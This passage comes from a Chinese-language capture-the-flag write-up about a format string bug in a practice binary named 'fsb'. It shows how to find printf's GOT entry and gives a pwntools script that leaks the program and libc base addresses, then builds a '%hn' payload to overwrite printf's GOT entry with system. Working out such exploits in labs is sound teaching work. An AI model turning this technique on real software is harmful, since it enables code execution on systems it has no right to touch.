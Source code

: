GOT 表中 printf 函数的地址为 `0x201028`，可以用以下两种方式寻找。

方式一，在利用脚本中通过 `elf.got` 寻找：

```
elf.got['printf']
```

方式二，直接在反编译窗口寻找：

![image-20230508172514749](images/image-20230508172514749.png)

利用脚本如下（原题目是在 Ubuntu 18.04 下编译，libc 为 libc-2.27.so，此处在 Ubuntu 16.04 下编译，libc 改用 libc-2.23.so）：

```python
# python2
from pwn import *
elf = ELF('./fsb')
libc = ELF('/lib/x86_64-linux-gnu/libc-2.23.so')
p = process('./fsb')
p.recvuntil('name:')
p.sendline('%17$p%21$p')
p.recvuntil('0x')

# 计算 fsb 程序基地址，即 _start 函数地址
addr = int(p.recvuntil('0x')[:-2],16)
base = addr - elf.symbols['_start']
info("base:0x%x", base)
addr = int(p.recvuntil('\n')[:-1],16)

# 计算 libc 基地址
libc_base = addr - libc.symbols['__libc_start_main']-0xf0
info("libc:0x%x", libc_base)

# 计算 system 函数地址
system = libc_base + libc.symbols['system']
info("system:0x%x", system)

# 将 system 地址拆分为 3 个 word
ch0 = system&0xffff
ch1 = (((system>>16)&0xffff)-ch0)&0xffff
ch2 = (((system>>32)&0xffff)-(ch0+ch1))&0xffff

# 3 个地址要放在 payload 最后
payload = "%" + str(ch0) + "c%12$hn"
payload += "%" + str(ch1) + "c%13$hn"
payload += "%" + str(ch2) + "c%14$hn"
payload = payload.ljust(48,'a')

# 将 GOT 表中 printf 函数地址修改为 system 函数地址
info("printf:0x%x", elf.got['printf'])
payload += p64(base+elf.got['printf'])
```